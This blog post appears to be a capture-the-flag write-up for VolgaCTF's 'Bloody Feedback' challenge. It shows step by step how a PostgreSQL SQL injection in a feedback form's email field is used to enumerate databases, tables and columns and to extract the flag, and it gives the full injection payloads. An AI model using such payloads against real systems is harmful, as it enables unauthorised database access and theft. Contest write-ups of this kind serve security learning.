 ```yaml
---
date: 2017-03-28
title: 'VolgaCTF - Bloody Feedback writeup'
template: post
slug: volgactf-bloody-feedback-writeup
categories:
 - CTF
tags:
 - CTF
---
```


```
Bloody Feedback

Send your feedback at bloody-feedback.quals.2017.volgactf.ru

DO. NOT. USE. SQLMAP
Otherwise your IP will be banned
```

The challenge basically has two functions, 1) Send feedback and 2) view the status of the sent feedback. There is also page that cotains "Top Messages" which is the feedback people send in. When you send feedback you get a token back which you can use to see if the feedback has been processed or not.

I first tried to steal cookies via the feedback form but it turned out that everything was filtered. My second try involved finding a SQL injection vulnerability at the feedback status page:

```
http://bloody-feedback.quals.2017.volgactf.ru/check/?code=<token here>
```

![not_processed](../images/not_processed.png)

I got nothing, the only thing I could deduce was that every feedback sent, had a default status of "not processed". I assumed this would change after a while but it never did.

My next attempt was to intercept the POST submission from the feedback form with burp to see if any parameters were vulnerable. By entering `lol'` as email, the following error was triggered:

```
<div class="container">
<div class="page-header">
<h2>Error</h2>
</div>
<div class="alert alert-danger">
	<p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
	LINE 1: ...HRkIBBUOq9M40ZqvsB1TcwWVWt','smacker','m','lol'','not proces...
	                                                 ^ at Worker.pm line 29.</p>
</div>
</div>
```

I realised that when you send your feedback, the program automatically inserts "not processed" along with the feedback. My working theory at ths point was to substitute the "not processed" field with an SQL query of my choosing. After a few tries I constructed the following query:

```
name=smacker&message=m&email=lol',(select version()))--
```

However I got an error message indicating that the field allows a maximum of 30 chars, so I simply added substring():

```
name=smacker&message=m&email=lol',(select substr(version(),0,30)))--
```

![not_processed](../images/postgres.png)

Now when I checked the status page of my feedback with the token I got, instead of seeing "not processed", I saw `PostgreSQL 9.5.6 on x86_64-pc`. Now I knew how to display my SQL queries on the site, by overwriting the "not processed" field.

So I tried a few other things:
```
user = fcgi_user         =>  name=smacker&message=m&email=lol',(select substr(user,0,30)))--
database = feedback_db   =>  name=smacker&message=m&email=lol',(select substr(current_database(),0,30)))--
```

Since the field can't hold multiple rows/values, I had to use LIMIT X OFFSET Y in order to step through each element in the set that the database returned. The following code snippets shows how I enumerated the database to find the flag.

**Databases:**
```
postgres => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 1))--
template1 => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 2))--
feedback_db => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 3))--
```

**TABLES:**
```
s3cret_tabl3 => name=smacker&message=m&email=lol',(select table_name FROM information_schema.tables WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
```

**COLUMNS:**
```
name =>  name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
email => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 2))--
message => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 3))--
status => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 4))--
id => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 5))--
s3cr3tc0lumn => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 6))--
```

**Time to get the rows from `s3cr3tc0lumn`**
```
VolgaCTF => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 1))--
Volga => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 2))--
1 => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 3))--
VolgaCTF{eiU7UJhyeu@ud3*} => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 4))--
```

![not_processed](../images/flag.png)

**Flag: VolgaCTF{eiU7UJhyeu@ud3\*}**

